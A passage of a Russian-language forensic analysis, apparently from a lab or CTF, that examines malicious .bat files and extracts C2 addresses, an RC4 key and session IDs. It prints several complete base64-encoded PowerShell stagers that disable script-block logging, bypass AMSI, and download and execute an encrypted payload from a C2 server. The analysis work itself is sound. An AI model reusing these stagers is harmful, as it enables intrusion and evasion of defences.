QBTAHQAZQBNAC4ATgBFAHQALgBXAGUAQgBDAGwASQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAFcAQwAuAEgARQBBAEQARQByAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAYwAuAFAAUgBPAHgAWQA9AFsAUwB5AFMAdABlAE0ALgBOAGUAVAAuAFcARQBiAFIAZQBRAHUARQBzAFQAXQA6ADoARABFAGYAQQBVAEwAdABXAEUAQgBQAFIATwB4AFkAOwAkAFcAYwAuAFAAcgBvAFgAeQAuAEMAUgBlAGQAZQBOAFQAaQBhAGwAUwAgAD0AIABbAFMAeQBTAHQARQBNAC4ATgBFAHQALgBDAFIAZQBkAEUAbgBUAEkAQQBMAEMAQQBDAGgAZQBdADoAOgBEAGUARgBBAFUAbABUAE4ARQB0AFcATwBSAEsAQwBSAGUAZABFAE4AdABJAGEATABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAVABlAG0ALgBUAEUAWABUAC4ARQBOAEMAbwBEAGkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQBUAEUAcwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAeABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAdwBDAC4ASABFAEEAZABFAHIAUwAuAEEAZABkACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0ANwByAHgAVgBWAG8ARQA4AFUANQAyAGYAOQA2AGMANQB4ADYAZwB1AEMAdwBUAHUARAA0ADQAPQAiACkAOwAkAEQAQQB0AGEAPQAkAFcAQwAuAEQATwB3AE4ATABvAEEARABEAGEAdABBACgAJABTAGUAUgArACQAdAApADsAJABJAFYAPQAkAEQAYQBUAGEAWwAwAC4ALgAzAF0AOwAkAGQAYQB0AGEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAEQAYQBUAGEALgBsAEUATgBnAHQAaABdADsALQBqAG8ASQBOAFsAQwBIAGEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```
Анализ кода показал что функционал данного скрипта аналогичен предыдущему (Updater.bat). Используются те же механизмы, C2-сервер `192.168.1.71:80/news.php`, тот же RC4 ключ `]hq1j)c#<Y5FR8X/Bvaw{&6.E!>K~zM%`, отличие лишь в session id, в данном случае session=`7rxVVEo8U52f96c5x6guCwTuD44=`, а у Updater.bat session=`j+fv7S1TAsanHlr3sbDurnsyrdr4=`. Это указывает на более сложную структуру атаки с использованием нескольких сессий.

Аналогичность подтверджается и на Virustotal:





### Анализ 2.bat

Далее изучим содержимое C:\Windows\temp\2.bat , оно немного отличается от предыдущих:

```text
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBFAHIAUwBJAG8AbgBUAEEAYgBMAGUALgBQAFMAVgBlAFIAUwBpAE8AbgAuAE0AQQBqAG8AUgAgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBlAGYAXQAuAEEAcwBTAEUATQBCAEwAWQAuAEcAZQBUAFQAeQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAGwARAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAGEATAB1AEUAKAAkAG4AdQBMAEwAKQA7AEkAZgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAYQBMAD0AWwBDAE8AbABMAEUAYwB0AGkAbwBuAFMALgBHAGUAbgBFAFIASQBjAC4ARABpAEMAdABpAG8AbgBhAFIAeQBbAHMAdABSAEkATgBnACwAUwB5AHMAVABFAE0ALgBPAEIAagBlAEMAdABdAF0AOgA6AE4ARQBXACgAKQA7ACQAdgBhAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJABWAEEAbAB9AEUATABTAEUAewBbAFMAYwBSAGkAcAB0AEIAbABPAGMAawBdAC4AIgBHAEUAVABGAEkAZQBgAEwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAFQAVgBBAGwAVQBFACgAJABOAHUAbABMACwAKABOAGUAdwAtAE8AQgBKAGUAQwBUACAAQwBvAGwAbABlAGMAdABJAE8ATgBTAC4ARwBlAG4AZQByAGkAYwAuAEgAYQBzAGgAUwBFAFQAWwBzAFQAUgBpAG4ARwBdACkAKQB9AFsAUgBFAGYAXQAuAEEAcwBTAEUAbQBiAEwAWQAuAEcARQB0AFQAWQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAFQARgBpAGUATABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATAB1AEUAKAAkAG4AVQBMAEwALAAkAFQAUgBVAEUAKQB9ADsAfQA7AFsAUwB5AFMAdABlAE0ALgBOAGUAdAAuAFMAZQBSAHYAaQBjAGUAUABvAEkATgBUAE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBDAHQAMQAwADAAQwBvAG4AdABJAG4AVQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAVAAgAFMAeQBzAFQARQBNAC4ATgBlAFQALgBXAEUAYgBDAEwAaQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgAZQBhAGQARQBSAFMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAAUgBvAHgAeQA9AFsAUwB5AFMAdABlAG0ALgBOAEUAVAAuAFcAZQBiAFIARQBxAFUAZQBzAFQAXQA6ADoARABFAGYAQQBVAEwAVABXAEUAYgBQAHIATwB4AHkAOwAkAHcAYwAuAFAAUgBPAFgAWQAuAEMAcgBlAGQAZQBOAFQAaQBBAEwAUwAgAD0AIABbAFMAWQBTAHQAZQBtAC4ATgBFAFQALgBDAHIARQBEAGUAbgBUAGkAQQBMAEMAQQBDAGgARQBdADoAOgBEAEUAZgBBAHUAbABUAE4AZQB0AHcAbwByAEsAQwByAGUAZABlAG4AVABpAGEATABTADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZAFMAdABlAG0ALgBUAEUAWAB0AC4ARQBOAEMATwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQBUAEIAeQBUAEUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAWABPAHIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADYAOgA4ADEAJwA7ACQAdAA9ACcALwBuAGUAdwBzAC4AcABoAHAAJwA7ACQAVwBDAC4ASABlAEEARABFAHIAUwAuAEEAZABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AQQBQAHUAegBjADMAMgA1AEIATwBLAEEALwBCAG8AMgBYAGkANwA5AGUAdABjADYANABKAFEAPQAiACkAOwAkAGQAQQB0AGEAPQAkAFcAQwAuAEQAbwBXAE4AbABvAEEARABEAEEAdABhACgAJABTAGUAcgArACQAdAApADsAJABJAFYAPQAkAGQAQQBUAEEAWwAwAC4ALgAzAF0AOwAkAEQAQQBUAEEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAEQAQQB0AEEALgBMAGUAbgBnAHQASABdADsALQBKAE8ASQBOAFsAQwBoAEEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAQQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```

Анализ кода 2.bat зафиксировал другой C2-сервер, в данном случае это `192.168.1.76:81/news.php` и session=`APuzc325BOKA/Bo2Xi79etc64JQ=`. В остальном - все то же самое.





### Анализ 3.bat

Далее изучим содержимое C:\Windows\temp\3.bat , оно немного отличается от предыдущих:

```text
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAFIAUwBJAE8AbgBUAEEAYgBsAGUALgBQAFMAVgBlAHIAcwBJAG8ATgAuAE0AQQBKAG8AUgAgAC0AZwBlACAAMwApAHsAJABHAFAARgA9AFsAUgBlAEYAXQAuAEEAUwBzAGUATQBiAEwAeQAuAEcARQB0AFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAEkAZQBgAEwARAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAEUAVABWAGEAbABVAEUAKAAkAE4AdQBMAEwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBMAD0AWwBDAG8ATABMAGUAQwBUAGkAbwBOAFMALgBHAGUAbgBlAHIAaQBDAC4ARABpAGMAVABJAG8AbgBBAHIAWQBbAHMAdABSAEkAbgBHACwAUwB5AHMAdABlAE0ALgBPAEIASgBlAEMAVABdAF0AOgA6AG4AZQBXACgAKQA7ACQAVgBBAEwALgBBAGQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAVgBhAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AGEATAB9AEUATABTAEUAewBbAFMAQwByAGkAUABUAEIATABvAEMASwBdAC4AIgBHAEUAdABGAEkAZQBgAEwAZAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBlAHQAVgBhAGwAdQBFACgAJABuAFUATABMACwAKABOAGUAVwAtAE8AQgBKAEUAQwB0ACAAQwBvAEwATABFAGMAVABJAG8AbgBzAC4ARwBlAE4ARQByAGkAYwAuAEgAQQBTAGgAUwBlAHQAWwBzAFQAcgBJAG4AZwBdACkAKQB9AFsAUgBFAEYAXQAuAEEAcwBzAEUAbQBCAGwAeQAuAEcAZQBUAFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEATABVAEUAKAAkAG4AVQBMAEwALAAkAFQAcgBVAEUAKQB9ADsAfQA7AFsAUwB5AHMAVABFAE0ALgBOAEUAVAAuAFMARQBSAHYASQBjAEUAUABvAEkATgBUAE0AYQBOAGEAZwBlAHIAXQA6ADoARQB4AHAARQBDAHQAMQAwADAAQwBvAG4AVABJAG4AVQBlAD0AMAA7ACQAdwBDAD0ATgBFAHcALQBPAEIASgBlAGMAdAAgAFMAeQBzAFQARQBNAC4ATgBFAFQALgBXAEUAYgBDAEwASQBFAE4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAYwAuAEgAZQBBAEQARQBSAHMALgBBAEQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAYwAuAFAAUgBPAHgAeQA9AFsAUwBZAFMAdABFAG0ALgBOAGUAVAAuAFcAZQBiAFIARQBxAHUAZQBzAHQAXQA6ADoARABFAEYAYQBVAGwAVABXAEUAQgBQAFIAbwBYAFkAOwAkAFcAQwAuAFAAcgBPAFgAeQAuAEMAUgBFAEQARQBuAFQAaQBBAGwAUwAgAD0AIABbAFMAWQBTAHQARQBtAC4ATgBFAFQALgBDAHIAZQBEAGUAbgBUAGkAYQBsAEMAYQBjAGgAZQBdADoAOgBEAGUAZgBhAHUAbAB0AE4ARQB0AHcAbwBSAGsAQwBSAEUAZABlAG4AdABJAEEAbABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AFMAdABFAE0ALgBUAGUAWAB0AC4ARQBuAGMATwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAeQBUAEUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAFUATgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA3ADEAOgA4ADAAJwA7ACQAdAA9ACcALwBhAGQAbQBpAG4ALwBnAGUAdAAuAHAAaABwACcAOwAkAFcAQwAuAEgAZQBhAEQAZQByAFMALgBBAEQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcwBlAHMAcwBpAG8AbgA9AHQASAA4ADIAeQB0AEwASgB6AFEAbQBaAG0AMwBZAGIAYwBhAGQARgA4ADIAVAB0ADAAWQB3AD0AIgApADsAJABkAEEAdABhAD0AJABXAEMALgBEAE8AVwBuAGwATwBBAEQARABhAHQAQQAoACQAcwBlAFIAKwAkAFQAKQA7ACQAaQB2AD0AJABEAGEAdABBAFsAMAAuAC4AMwBdADsAJABkAGEAdABhAD0AJABkAEEAdABhAFsANAAuAC4AJABkAEEAdABBAC4ATABlAG4AZwB0AGgAXQA7AC0ASgBPAEkAbgBbAEMAaABBAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAVABBACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

У 3.bat Ip-адрес C2-сервера как в первых двух случаях но уже лругой эндпоинт, а именно `192.168.1.71:80/admin/get.php` и session=`tH82ytLJzQmZm3YbcadF82Tt0Yw=`. В остальном - все то же самое.


### Анализ файла с именем 1 (без расширения)

Изучим содержимое C:\Windows\temp\1:

```text
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBlAFIAUwBpAE8ATgBUAGEAQgBsAEUALgBQAFMAVgBlAHIAUwBJAE8ATgAuAE0AYQBqAE8AcgAgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBlAGYAXQAuAEEAUwBzAEUAbQBiAGwAeQAuAEcARQB0AFQAWQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAEEAbAB1AGUAKAAkAE4AVQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAQQBsAD0AWwBDAG8AbABMAGUAYwB0AEkATwBuAHMALgBHAGUAbgBFAHIASQBDAC4ARABpAGMAdABJAG8ATgBBAHIAeQBbAHMAVABSAEkATgBnACwAUwBZAFMAdABlAG0ALgBPAEIAagBFAEMAVABdAF0AOgA6AG4ARQBXACgAKQA7ACQAVgBBAGwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJAB2AEEATAB9AEUATABTAGUAewBbAFMAYwByAEkAcAB0AEIAbABPAEMASwBdAC4AIgBHAEUAVABGAGkAZQBgAGwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAHQAVgBhAGwAdQBFACgAJABuAFUATABsACwAKABOAGUAdwAtAE8AYgBqAGUAYwBUACAAQwBvAGwATABlAEMAdABJAE8ATgBzAC4ARwBFAE4ARQBSAGkAQwAuAEgAYQBzAEgAUwBFAFQAWwBzAFQAUgBJAG4ARwBdACkAKQB9AFsAUgBlAGYAXQAuAEEAUwBTAGUATQBiAEwAWQAuAEcAZQBUAFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBlAHQARgBJAGUAbABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAEEAbAB1AEUAKAAkAG4AVQBsAEwALAAkAFQAUgB1AGUAKQB9ADsAfQA7AFsAUwBZAFMAVABFAG0ALgBOAGUAdAAuAFMARQBSAFYAaQBjAGUAUABvAGkAbgB0AE0AQQBOAEEAZwBFAHIAXQA6ADoARQBYAFAAZQBDAFQAMQAwADAAQwBPAG4AVABpAE4AVQBlAD0AMAA7ACQAVwBjAD0ATgBlAHcALQBPAEIAagBlAEMAVAAgAFMAWQBTAHQAZQBtAC4ATgBFAHQALgBXAEUAQgBDAEwASQBlAE4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAYwAuAEgARQBBAEQARQByAFMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAQwAuAFAAcgBPAFgAWQA9AFsAUwBZAHMAdABFAG0ALgBOAEUAdAAuAFcARQBCAFIAZQBRAFUAZQBTAHQAXQA6ADoARABlAEYAYQB1AGwAdABXAGUAQgBQAFIAbwB4AFkAOwAkAFcAQwAuAFAAUgBPAHgAeQAuAEMAcgBFAEQAZQBuAHQASQBhAEwAUwAgAD0AIABbAFMAWQBTAFQAZQBtAC4ATgBFAFQALgBDAHIAZQBEAGUAbgB0AGkAQQBsAEMAYQBjAEgARQBdADoAOgBEAEUAZgBhAHUAbABUAE4AZQB0AHcATwBSAGsAQwBSAGUARABFAE4AdABpAGEATABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZAHMAVABFAE0ALgBUAGUAWABUAC4ARQBuAGMAbwBEAEkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcARQB0AEIAeQBUAEUAUwAoACcAXQBoAHEAMQBqACkAYwAjADwAWQA1AEYAUgA4AFgALwBCAHYAYQB3AHsAJgA2AC4ARQAhAD4ASwB+AHoATQAlACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBvAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlA